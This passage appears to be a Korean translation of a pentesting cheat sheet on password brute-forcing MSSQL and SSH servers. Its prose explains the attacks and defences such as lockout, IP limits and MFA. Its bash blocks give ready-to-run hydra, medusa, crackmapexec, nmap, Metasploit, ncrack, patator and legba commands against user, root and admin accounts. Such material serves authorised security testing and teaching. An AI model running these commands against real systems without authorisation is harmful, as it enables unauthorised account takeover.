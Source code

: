 2. 암호 식별: 유효한 사용자 이름을 식별한 후, 가능한 모든 암호 조합을 시도하여 올바른 암호를 찾습니다. 이를 위해 일반적으로 사용되는 암호 목록을 사용하거나, 암호를 추측하는 기술을 사용할 수 있습니다.

3. 브루트 포스 도구 사용: 브루트 포스 공격을 자동화하기 위해 다양한 브루트 포스 도구를 사용할 수 있습니다. 이러한 도구는 대부분 다양한 암호 조합을 시도하고, 암호를 찾을 때까지 계속 시도합니다.

4. 성공적인 암호 찾기: 브루트 포스 공격이 성공하면, 공격자는 시스템에 로그인할 수 있는 유효한 사용자 이름과 암호를 얻게 됩니다. 이를 통해 공격자는 시스템에 대한 권한을 획득하고, 민감한 데이터에 접근할 수 있게 됩니다.

## 방어 대책

SQL Server에서 브루트 포스 공격을 방지하기 위해 다음과 같은 방어 대책을 적용할 수 있습니다.

- 강력한 암호 정책: 사용자들에게 강력한 암호를 사용하도록 요구하는 암호 정책을 설정합니다. 이는 암호의 길이, 복잡성, 만료 기간 등을 포함할 수 있습니다.

- 계정 잠금: 일정 횟수의 실패한 로그인 시도 후에 계정을 잠그는 기능을 활성화합니다. 이를 통해 브루트 포스 공격을 어렵게 만들 수 있습니다.

- IP 주소 제한: 특정 IP 주소에서만 SQL Server에 접근할 수 있도록 설정합니다. 이를 통해 외부에서의 브루트 포스 공격을 방지할 수 있습니다.

- 로그 모니터링: 로그인 시도 및 계정 잠금과 관련된 로그를 모니터링하여 브루트 포스 공격을 탐지할 수 있습니다. 이를 통해 적절한 대응 조치를 취할 수 있습니다.

- 업데이트 및 패치: SQL Server를 최신 버전으로 업데이트하고, 보안 패치를 적용하여 알려진 취약점을 해결합니다. 이를 통해 브루트 포스 공격에 대한 취약성을 줄일 수 있습니다.

- 다중 요인 인증: 다중 요인 인증을 사용하여 로그인 프로세스를 보호합니다. 이는 사용자가 추가적인 인증 단계를 거치도록 요구하여 보안을 강화합니다.

## 결론

SQL Server에서 브루트 포스 공격은 암호를 찾기 위한 공격 기법 중 하나입니다. 이를 방지하기 위해 강력한 암호 정책, 계정 잠금, IP 주소 제한, 로그 모니터링, 업데이트 및 패치, 다중 요인 인증 등의 방어 대책을 적용해야 합니다.
```bash
#Use the NetBIOS name of the machine as domain
crackmapexec mssql <IP> -d <Domain Name> -u usernames.txt -p passwords.txt
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> mssql
medusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M mssql
nmap -p 1433 --script ms-sql-brute --script-args mssql.domain=DOMAIN,userdb=customuser.txt,passdb=custompass.txt,ms-sql-brute.brute-windows-accounts <host> #Use domain if needed. Be careful with the number of passwords in the list, this could block accounts
msf> use auxiliary/scanner/mssql/mssql_login #Be careful, you can block accounts. If you have a domain set it and use USE_WINDOWS_ATHENT
```
### SSH

SSH (Secure Shell)는 네트워크 프로토콜로, 원격 시스템에 안전하게 접속하기 위해 사용됩니다. SSH는 암호화된 통신을 제공하여 데이터의 기밀성과 무결성을 보장합니다. SSH는 일반적으로 리눅스 및 유닉스 시스템에서 원격으로 접속하기 위해 사용되며, 비밀번호 또는 공개키 인증을 통해 인증을 수행합니다.

SSH 브루트 포스 공격은 SSH 서버에 대한 암호를 추측하여 접속을 시도하는 공격입니다. 이 공격은 대상 시스템에 대한 암호를 알아내기 위해 다양한 암호 조합을 시도합니다. SSH 브루트 포스 공격은 비밀번호를 사용하는 SSH 인증 방식에서 특히 효과적입니다.

SSH 브루트 포스 공격을 수행하기 위해 다양한 도구와 기술이 사용될 수 있습니다. 일반적으로는 사전 공격, 무차별 대입 공격, 사전 공격과 무차별 대입 공격의 조합 등이 사용됩니다. 이러한 공격은 대상 시스템의 암호 정책, 사용자 계정의 약점, 사전에 미리 수집한 정보 등을 기반으로 수행됩니다.

SSH 브루트 포스 공격을 방지하기 위해 다양한 조치를 취할 수 있습니다. 강력한 암호 정책을 설정하고, 계정 잠금 정책을 적용하며, IP 주소 기반의 접근 제어를 구성하는 등의 방법이 있습니다. 또한, 공격자의 IP 주소를 차단하는 등의 대응 조치를 취할 수도 있습니다.

SSH 브루트 포스 공격은 시스템 보안에 매우 위협적인 공격입니다. 따라서, SSH 서버를 운영하는 경우에는 적절한 보안 조치를 취하여 이러한 공격으로부터 시스템을 보호해야 합니다.
```bash
hydra -l root -P passwords.txt [-t 32] <IP> ssh
ncrack -p 22 --user root -P passwords.txt <IP> [-T 5]
medusa -u root -P 500-worst-passwords.txt -h <IP> -M ssh
patator ssh_login host=<ip> port=22 user=root 0=/path/passwords.txt password=FILE0 -x ignore:mesg='Authentication failed'
legba ssh --username admin --password wordlists/passwords.txt --target localhost:22
# Try keys from a folder
legba ssh --username admin --password '@/some/path/*' --ssh-auth-mode key --target localhost:22
```
#### 약한 SSH 키 / Debian 예측 가능한 PRNG
